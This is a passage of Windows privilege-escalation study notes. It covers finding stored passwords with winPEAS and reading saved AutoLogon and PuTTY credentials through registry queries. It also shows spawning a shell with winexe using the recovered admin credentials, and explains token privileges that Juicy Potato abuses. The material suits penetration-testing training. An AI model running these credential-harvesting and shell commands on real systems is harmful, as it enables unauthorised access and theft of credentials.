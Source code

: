 1. Use winPEAS to check common password locations:
    ````
    .\winPEASany.exe quiet filesinfo userinfo
    ````
    (the final checks will take a long time to complete)
2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).
3. We can verify these manually:
    ````
    reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
    ````
4. On Kali, we can use the winexe command to spawn a shell using these 
credentials:
    ````
    winexe -U 'admin%password123' //10.0.1.48 cmd.exe
    ````


AND BIM!

---


## User Privileges
In Windows, user accounts and groups can be assigned 
specific “privileges”.
These privileges grant access to certain abilities.
Some of these abilities can be used to escalate our overall 
privileges to that of SYSTEM.
Highly detailed paper: https://github.com/hatRiot/token-priv

### Listing our Privileges
The whoami command can be used to list our user’s 
privileges, using the /priv option:

````
whoami /priv
````

Note that “disabled” in the state column is irrelevant 
here. If the privilege is listed, your user has it.


### SeImpersonatePrivilege
The SeImpersonatePrivilege grants the ability to impersonate 
any access tokens which it can obtain.
If an access token from a SYSTEM process can be obtained, 
then a new process can be spawned using that token.
The Juicy Potato exploit in a previous section abuses this 
ability.


### SeAssignPrimaryPrivilege
The SeAssignPrimaryPrivilege is similar to 
SeImpersonatePrivilege.
It enables a user to assign an access token to a new process.
Again, this can be exploited with the Juicy Potato exploit
